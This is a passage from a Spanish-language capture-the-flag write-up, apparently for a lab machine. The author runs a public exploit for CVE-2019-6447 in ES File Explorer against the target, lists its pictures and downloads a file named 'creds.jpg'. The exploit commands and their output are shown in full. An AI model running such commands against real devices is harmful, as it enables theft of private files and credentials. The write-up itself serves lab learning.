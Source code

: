 Intentemos ejecutar otro comando, `listPics` por ejemplo:

```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ python3 50070.py listPics 10.10.10.247

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)
```
Podemos ver 4 archivos de imágen, pero hay uno que llama la atención.

¿`creds.jpg`? ¿Credenciales?

Uso la función para descargar archivos que tiene implementado el exploit para examinar más en detalle esta imágen, que concretamente está localizada en `/storage/emulated/0/DCIM/creds.jpg`:

```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ python3 50070.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
```
Parece ser que se ha descargado, veamos la imagen para ver de que se trata:

![out](https://user-images.githubusercontent.com/67548295/139682005-3770fedb-bb3d-434b-9c92-bbdaad173a44.jpeg)
